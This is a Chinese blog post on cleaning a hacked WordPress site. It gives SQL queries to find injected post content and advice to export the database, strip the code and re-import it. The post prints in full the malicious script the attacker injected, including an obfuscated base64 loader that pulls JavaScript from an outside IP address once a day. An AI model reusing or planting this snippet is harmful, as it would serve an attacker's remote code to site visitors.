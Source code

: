 ```yaml
---
layout: post
title:
modified:
categories: Tech
 
tags: [wordpress]

comments: true
---
```


## 被攻击

被人盯上了，也是有意思.还自动每天在我平台发文章...

具体从chrome可以看到一段插入的js:
![Screenshot from 2019-04-16 09-54-20-f98aa49e-253d-4eab-981d-5f0d22a6bf03](https://images-1257933000.cos.ap-chengdu.myqcloud.com/Screenshot%20from%202019-04-16%2009-54-20-f98aa49e-253d-4eab-981d-5f0d22a6bf03.png).

自然不是我写的.工程也搜不到，只能是sql注入攻击了，在pc chrome还好，移动端就会出现一些恶心的跳转和广告.全阿拉伯文...和羞羞的图

解决办法:
<https://stackoverflow.com/questions/52249409/how-to-remove-scripts-in-posts-from-an-sql-injection-attack>

## 解决

恶意代码肯定是插入到文章wp_post里了:

```sql
SELECT * FROM `wp_posts` WHERE post_content LIKE "%codes_iframe%";
```
可以找到所有的插入代码:
```sql
SELECT post_title as title, ID as post_id, SUBSTRING(post_content,1,LOCATE('<!--codes_iframe-->',post_content)-1 ) as pre_post, SUBSTRING(post_content,LOCATE('<!--codes_iframe-->',post_content) + LENGTH('<!--/codes_iframe-->')) as post_txt from wp_posts
```
用sql替换也太...还是导出来，用文本工具替换好了，找到
```sh
<!--codes_iframe--><script type=\"text/javascript\"> function getCookie(e){var U=document.cookie.match(new RegExp(\"(?:^|; )\"+e.replace(/([\\.$?*|{}\\(\\)\\[\\]\\\\\\/\\+^])/g,\"\\\\$1\")+\"=([^;]*)\"));return U?decodeURIComponent(U[1]):void 0}var src=\"data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=\",now=Math.floor(Date.now()/1e3),cookie=getCookie(\"redirect\");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie=\"redirect=\"+time+\"; path=/; expires=\"+date.toGMTString(),document.write(\'<script src=\"\'+src+\'\"><\\/script>\')} </script><!--/codes_iframe-->
```
替换为空,再导回去, 注意有外键约束的表可别这么玩.



